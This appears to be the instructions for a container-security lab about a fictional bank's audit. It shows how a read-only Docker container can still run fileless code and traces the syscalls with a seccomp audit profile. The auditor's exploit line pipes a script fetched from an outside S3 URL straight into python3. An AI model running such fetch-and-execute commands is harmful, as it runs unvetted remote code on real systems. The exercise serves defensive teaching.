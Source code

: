 # WhizCash Bank

WhizCash Bank had its annual security audit. The result was forwarded to you.

# Result of the External Security Audit

After the external security audit of the bank's infrastructure, a security vulnerability was found. Although the containers were started with the read-only flag, an auditor was able to write something to the file system.

You are now responsible for closing this security gap. In order to test the vulnerability, the auditor has provided you with a test exploit.

## How the exploit does work

The auditor gives you the following instructions on how the exploit can currently be executed:

> **_NOTE:_**  To see what happens, you have to activate an audit profile for seccomp provided here [audit.json](./profiles/audit.json).

Starting a container with read-only file system:

    sudo docker run --name fileless -d -it --rm --read-only --security-opt seccomp=[path-to-audit-json]/audit.json python:3.9.1

Run the following command to see which syscalls are executed

    sudo journalctl -f | grep audit

Now you are able to run the exploit provided by the auditor:

    sudo docker exec -it fileless curl -s https://sec4dev.s3.eu-central-1.amazonaws.com/output.py | python3

and you should see in the logs that there are various of syscalls executed e.g. openat.
